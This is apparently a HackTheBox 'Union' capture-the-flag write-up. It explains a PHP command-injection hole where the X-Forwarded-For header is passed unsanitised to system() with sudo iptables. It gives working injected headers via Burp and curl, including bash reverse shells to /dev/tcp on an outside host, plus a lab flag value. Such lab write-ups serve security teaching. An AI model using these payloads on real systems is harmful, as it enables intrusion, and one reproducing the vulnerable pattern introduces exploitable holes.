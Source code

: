 # X-Forwarded-For Exploitation
*Union-machine Hackthebox*

This block of code is the insecure part:
```php
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
```
It’s using `X-Forwarded-For (XFF)` to identify the originating IP of the client and **`system`** to call `sudo iptables`. While I’m sure the developer thought it was ok because the attacker cannot forge their remote address, what I can control is the `X-FORWARDED-FOR` header. Without sanitization of the user input this can be easily manipulated.
## Exploitation
### Burpsuite
Sending captured request over to Burp Repeater and add to that field `X-FORWARDED-FOR`:
```burpsuite
GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.128/challenge.php
Connection: close
Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
Upgrade-Insecure-Requests: 1
X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.14.6;
```
For checking, with `tcpdump` listening, I’ll send the request. I get a ping:
```console
oxdf@parrot$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:28:32.771157 IP 10.10.11.128 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
16:28:32.771182 IP 10.10.14.6 > 10.10.11.128: ICMP echo reply, id 1, seq 1, length 64
```
Change the value of `X-FORWARDED-FOR` to create reverse shell:
```console
X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.16.6/8888 0>&1";
```
### curl
```console
#get PHPSESSID
curl -s -v http://10.10.11.128 -d "player=duy"

#After the user "duy" enters the flag value, he will have access to firewall.php, like authorizing access for the "duy" user. -L flag to tell curl to follow the redirect from the challenge.php page to the firewall.php page
curl -s -X POST -b 'PHPSESSID=tie6r4uno69o57gbuesapskfku' --data-binary 'flag=UHC{F1rst_5tep_2_Qualify}' 'http://10.10.11.128/challenge.php' -L 

#Reverse shell. After entering the flag and being authorized in the step above, the "duy" user has access to firewall.php
curl -X GET -H 'X-FORWARDED-FOR: ;bash -c "bash -i >& /dev/tcp/10.10.16.5/8888 0>&1";' --cookie "PHPSESSID=tie6r4uno69o57gbuesapskfku" 'http://10.10.11.128/firewall.php'
```
On the local machine, create listener with nc!
